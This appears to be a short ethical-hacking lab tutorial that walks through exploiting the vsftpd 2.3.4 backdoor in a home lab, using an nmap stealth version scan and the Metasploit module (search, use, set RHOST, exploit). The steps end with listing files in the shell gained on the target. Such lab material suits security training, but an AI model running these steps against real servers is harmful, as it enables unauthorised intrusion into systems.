 # vsftpd version 2.3.4 Backdoor exploit #

Vsftpd is File transfer service which is vulnerable to attack backdoor command execution. In this lab we will exploit this vulnerability.

## Prerequstite for this lab ##
- [DVWA](https://github.com/digininja/DVWA)
- [Parrot Security Os]()
- [Nmap](https://www.nmap.org)
- [Metasploit]()

## Lab Configuration ##
- make sure hosts are in same network
- ping between hosts

<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/74c60a7e-4a8f-4bf9-86a7-2fc47fc8039a" width="400px" height="250px"><br>Figure (1) Lab Configuration</p>

Run nmap to know what version of the server, which ports are open and what are vulnerable to attack. To do that, open mate terminal and type ``` nmap -sS -Pn -sV [Target IP Address] ``` and press enter.
```
- nmap is command  to run
- sS option is set to stealth scan
- sV flag is to set version detection scan
- Pn skip ping scan type
- [Target IP ] which is target IP
```
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/a89adcd7-e139-4154-925a-8a06053c3994" width="400px" height="250px"><br>Figure (2) Nmap scan results</p>

We got vsftpd version is  ``` 2.3.4 ```. Go to Metasploit console by typing msfconsole.
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/adc5df6b-36b9-43f6-bc60-9fb1a1fdc874" width="400px" height="250px"><br>Figure (3) Metasploit Framework</p>

And after that search exploit module in metasploit console type ``` search vsftpd ``` and results will appears.
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/8bddc371-557e-416f-b0d3-860415216fb2" width="400px" height="250px"><br>Figure (4) Exploit module</p>

To use exploit type ``` use 0 ``` to interact with exploit. After that type ``` show options ``` to see what information need to provide.
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/d04b85b5-40ad-48c0-a1d6-c77abf517d67" width="400px" height="250px"><br>Figure (5) Show options </p>

To start exploit we need to provide who is our target to do that ``` set RHOST [Target IP] ```. And to start attack type ``` exploit ```.
```
- set RHOST [Target IP] is always victim ip address
- exploit command is to start attack
```
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/2e42f766-6c24-4ddf-8c06-094267b76bf5" width="400px" height="250px"><br>Figure (6) Options configuration</p>

After that, exploit is running and completed. Type ``` ls ``` to know what we have.
<p align="center"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/64a09598-31c0-4dcf-9d48-f528e79fa48c" width="400px" height="250px"><img src="https://github.com/AungZayMyo/Ethical-Hacking/assets/154745254/f4e272fe-5429-47ed-a19b-e6ab950c6ba6" width="400px" height="250px"><br>Figure (7)</p>

## Conclusion ##

In this tutorial, vsftpd version 2.3.4 is exploited by using Metasploit and nmap. Do more Practice and Expert it!. <br>
**1/27/2023** <br>
Contributed By - Jord@n
